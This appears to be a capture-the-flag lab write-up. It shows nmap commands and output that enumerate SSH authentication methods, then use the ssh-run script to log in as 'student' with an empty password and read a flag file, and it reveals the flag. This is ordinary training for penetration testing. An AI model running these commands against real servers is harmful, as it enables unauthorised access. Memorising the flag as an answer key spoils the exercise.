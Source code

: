 Which authentication method is being used by the SSH server for user “admin”.

`publickey, password`

```
root@attackdefense:~# nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=admin" 192.10.72.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-22 10:11 UTC
Nmap scan report for target-1 (192.10.72.3)
Host is up (0.000064s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
MAC Address: 02:42:C0:0A:48:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.96 seconds
```

Fetch the flag from /home/student/FLAG by using nmap ssh-run script.

`e1e3c0c9d409f594afdb18fe9ce0ffec`

[ssh-run](https://nmap.org/nsedoc/scripts/ssh-run.html)

```
root@attackdefense:~# nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=ls -l, ssh-run.username=student, ssh-run.password=''" 192.10.72.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-22 10:22 UTC
NSE: [ssh-run] Authenticated
NSE: [ssh-run] Running command: ls -l
NSE: [ssh-run] Output of command: total 4
-rw-r--r-- 1 root root 33 Nov 22  2018 FLAG

Nmap scan report for target-1 (192.10.72.3)
Host is up (0.000069s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-run: 
|   output: 
|     total 4\x0D
|_-rw-r--r-- 1 root root 33 Nov 22  2018 FLAG\x0D
MAC Address: 02:42:C0:0A:48:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

```
root@attackdefense:~# nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student, ssh-run.password=''" 192.10.72.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-22 10:25 UTC
NSE: [ssh-run] Authenticated
NSE: [ssh-run] Running command: cat /home/student/FLAG
NSE: [ssh-run] Output of command: e1e3c0c9d409f594afdb18fe9ce0ffec

Nmap scan report for target-1 (192.10.72.3)
Host is up (0.000047s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-run: 
|   output: 
|_    e1e3c0c9d409f594afdb18fe9ce0ffec\x0D
MAC Address: 02:42:C0:0A:48:03 (Unknown)
```